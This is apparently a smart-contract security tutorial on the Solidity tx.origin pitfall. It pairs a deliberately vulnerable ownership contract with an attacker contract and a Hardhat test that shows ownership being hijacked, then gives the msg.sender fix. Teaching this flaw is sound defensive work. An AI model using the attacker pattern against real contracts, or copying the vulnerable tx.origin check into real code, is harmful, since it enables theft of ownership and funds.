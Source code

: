 # Attack with tx.origin

tx.origin is a global variable which returns the address that sent the transaction, we will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts

Lets goo 🚀


## What is tx.origin?

`tx.origin` is a global variable which returns the address of the account which sent the transaction. Now you might be wondering then what is `msg.sender` 🤔. The difference is that `tx.origin` refers to the original external account (which is the user) that started the transaction and `msg.sender` is the immediate account that called the function and it can be an external account or another contract calling the function.

So for example, if User calls Contract A, which then calls contract B within the same transaction, `msg.sender` will be equal to `Contract A` when checked from inside `Contract B`. However, `tx.origin` will be the `User` regardless of where you check it from.


## DOS Attack on a smart contract

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol`. Initially the owner of `Good.sol` will be a good user. Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to itself.


### Build

Lets build an example where you can experience how the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- If you are not on mac, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

First, let's create a contract named `Good.sol` which is essentially a simpler version of `Ownable.sol` that we have previously used.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;


contract Good  {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner" );
        owner = newOwner;
    }
}
```

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good public good;
    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

Now lets try immitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.connect(addr1).deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    let tx = await _attackContract.connect(addr1).attack();
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

The attack will happen as follows, initially `addr1` will deploy `Good.sol` and will be the owner but the attacker will somehow fool the user who has the private key of `addr1` to call the `attack` function with `Attack.sol`. 

When the user calls `attack` function with `addr1`,  `tx.origin` is set to `addr1`. `attack` function further calls `setOwner` function of `Good.sol` which first checks if `tx.origin` is indeed the owner which is `true` because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to `Attack.sol` 

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the owner of `Good.sol` is now `Attack.sol`

## Real Life Example
While this may seem obvious to most of you, as `tx.origin` isn't something you see being used at all, some developers do make this mistake. You can read about the [THORChain Hack #2 here](https://rekt.news/thorchain-rekt2/) where users lost millions in $RUNE due to an attacker being able to get approvals on $RUNE token by sending a fake token to user's wallets, and approving that token for sale on Uniswap would transfer $RUNE from the user's wallet to the attacker's wallet because THORChain used `tx.origin` for transfer checks instead of `msg.sender`.

## Prevention

- You should use `msg.sender` instead of `tx.origin` to not let this happen

Example:

```solidity

function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}

```

Hope you liked this level ❤️, keep building.

WAGMI 🚀


## References
- [Solidity by example](https://solidity-by-example.org/)
